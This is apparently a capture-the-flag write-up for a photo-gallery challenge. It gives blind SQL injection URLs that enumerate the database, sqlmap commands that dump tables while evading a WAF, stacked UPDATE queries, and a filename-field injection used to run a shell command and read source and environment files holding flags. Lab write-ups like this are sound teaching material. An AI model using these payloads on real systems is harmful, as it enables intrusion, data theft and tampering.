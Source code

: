 Test sql injection

```
http://34.74.105.127/e273dcce57/fetch?id=1
http://34.74.105.127/e273dcce57/fetch?id=1 AND (select length(database()) == 6
http://34.74.105.127/e273dcce57/fetch?id=1 AND database() like 'level5'
http://34.74.105.127/e273dcce57/fetch?id=1 AND (select count(1) from information_schema.tables where table_schema=database())=2
http://34.74.105.127/e273dcce57/fetch?id=1 AND (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6
http://34.74.105.127/e273dcce57/fetch?id=1 AND (select table_name from information_schema.tables where table_schema=database() limit 0,1) like 'albums'
http://34.74.105.127/e273dcce57/fetch?id=1 AND (select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)=6
http://34.74.105.127/e273dcce57/fetch?id=1 AND (select table_name from information_schema.tables where table_schema=database() limit 0,1) like 'photos'
```

```
sqlmap -u "http://34.74.105.127/e273dcce57/fetch?id=1" --method GET --dump -D level5 -T photos -p id --code 200 --skip-waf --random-agent --threads 10 -o
sqlmap -u "http://34.74.105.127/e273dcce57/fetch?id=1" --method GET --dump -D level5 -T albums -p id --code 200 --skip-waf --random-agent --threads 10 -o
```

Try to change the title
``
http://34.74.105.127/e273dcce57/fetch?id=1;UPDATE%20photos%20set%20title=%27hello%27%20where%20id=2;commit;
```

Space used: 0 total looks weird
By setting parent to 0 we get 232K total
```
http://34.74.105.127/e273dcce57/fetch?id=1;UPDATE%20photos%20set%20parent=0;commit;
http://34.74.105.127/e273dcce57/fetch?id=1;UPDATE%20photos%20set%20filename=%27main.py%27%20where%20id=3;commit
```

Then visit 
```
  http://34.74.105.127/e273dcce57/fetch?id=3
```

We get the source code of main.py which contains a flag in comment

By checking the ``main.py``, looks like we can perform shell script injection by modifying filename

Try to check if there is another files other than jpgs in files
```
  http://34.74.105.127/a3aa84e754/fetch?id=1.1;update%20photos%20set%20filename=%27%20;ls%20files%20--ignore=*.jpg%20%27;commit;
```
Well, found nothing here.

How about get the enviroment variables 
```
  http://34.74.105.127/a3aa84e754/fetch?id=1.1;update%20photos%20set%20filename=%27files/env.txt%27%20where%20id=3;commit;
```

Get the env.txt file via
```
  http://34.74.105.127/a3aa84e754/fetch?id=3
```

There are three flags in env.txt file
